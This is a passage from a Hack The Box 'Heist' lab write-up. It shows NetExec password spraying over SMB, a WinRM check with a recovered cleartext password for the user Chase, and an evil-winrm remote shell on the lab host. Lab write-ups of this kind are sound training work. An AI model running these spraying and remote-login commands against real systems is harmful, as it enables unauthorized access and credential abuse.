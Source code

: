 ```bash
nxc smb 10.129.252.157 -u usernames.txt -p passwords.txt --continue-on-success
```

![image.png](/assets/images/Heist_HTB/image%2015.png)

Found a valid password for the user Chase on the box.

Saved the credentials to creds.txt file.

Now testing for winrm shell since port 5985 is open on the box for the user Chase.

```bash
nxc winrm 10.129.252.157 -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'
```

![image.png](/assets/images/Heist_HTB/image%2016.png)

It says pwned !!

We can see that we have a valid shell on the box.

### Shell as Chase

Using Evil-Winrm to gain shell as Chase.

```bash
evil-winrm -i 10.129.252.157 -u "chase" -p 'Q4)sJu\Y8qz*A3?d'
```

![image.png](/assets/images/Heist_HTB/image%2017.png)
